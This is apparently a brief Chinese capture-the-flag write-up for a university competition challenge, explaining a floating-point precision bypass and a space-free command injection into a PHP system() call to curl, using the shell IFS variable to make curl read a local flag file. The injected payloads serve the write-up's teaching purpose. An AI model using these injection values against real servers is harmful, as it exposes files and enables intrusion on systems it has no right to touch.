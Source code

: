 ###此题是全国大学生CTF联赛的真题 


$num=0.9999999999999999999999999999999999999999999999  利用浮点数精度绕过



住要看 system(curl$cmd/flag);

$cmd不允许存在空格...
要读取文件,必须要构造一个空格出来,

利用Shell 脚本中有个变量叫IFS(Internal Field Seprator) ，内部域分隔符
echo $IFS   | od -b  

最后 $cmd=$IFS\file://$PWD/flag.php
或者 $cmd=$IFS\file:///var/www/html/exam/flag.php$IFS\


